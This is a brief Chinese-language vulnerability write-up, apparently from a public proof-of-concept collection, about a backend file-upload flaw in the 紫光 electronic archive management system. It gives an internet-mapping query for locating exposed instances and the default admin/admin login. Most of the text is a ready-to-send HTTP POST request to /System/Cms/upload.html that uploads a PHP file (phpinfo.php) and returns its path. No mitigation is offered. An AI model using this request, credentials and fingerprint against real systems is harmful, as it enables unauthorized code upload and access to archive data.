

# 紫光档案管理系统 upload.html 后台文件上传漏洞

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。
紫光电子档案管理系统后台存在文件上传漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

<a-checkbox checked>紫光电子档案管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="紫光档案管理系统"</a-checkbox></br>

## 漏洞复现

登录页面


使用默认口令登录后台 admin/admin, 发送请求包


```php
POST /System/Cms/upload.html?token=5117e82385cef4c12547fdd4c028b97a1-1 HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 614
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygIRYWNxmDYiZBguT

------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="userID"

admin
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="fondsid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="comid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="token"

6b79a77180e9ec3a7ca351ebe54641a2
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="files[]"; filename="phpinfo.php"
Content-Type: text/php

<?php phpinfo();?>
------WebKitFormBoundarygIRYWNxmDYiZBguT--
```



回显路径即为上传成功的文件路径

